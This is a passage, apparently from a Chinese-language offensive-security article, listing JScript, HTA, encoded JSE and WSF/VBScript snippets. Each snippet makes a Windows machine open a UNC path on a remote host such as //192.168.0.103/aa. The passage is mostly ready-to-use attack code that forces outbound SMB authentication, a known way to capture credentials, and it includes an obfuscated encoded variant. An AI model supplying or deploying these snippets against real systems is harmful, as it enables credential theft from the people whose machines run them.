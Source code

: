 

**JScript**

利用这种方法时，需要将下面的代码存储为Windows的“js”文件:



```
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
```

同样，也可以应用于“.hta”文件中，不过还是只适用于IE：



```
&lt;html&gt;
&lt;script type="text/Jscript"&gt;
&lt;!--
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```

编码版，需要存储为“.jse”文件：

```
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
```

HTML版本：



```
&lt;html&gt;
&lt;script type="text/Jscript.Encode"&gt;
&lt;!--
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```



**Windows脚本文件**

将下面的代码存储为“.wsf”文件：



```
&lt;package&gt;
  &lt;job id="boom"&gt;
    &lt;script language="VBScript"&gt;
       Set fso = CreateObject("Scripting.FileSystemObject")
       Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
    &lt;/script&gt;
   &lt;/job&gt;
&lt;/package&gt;
```
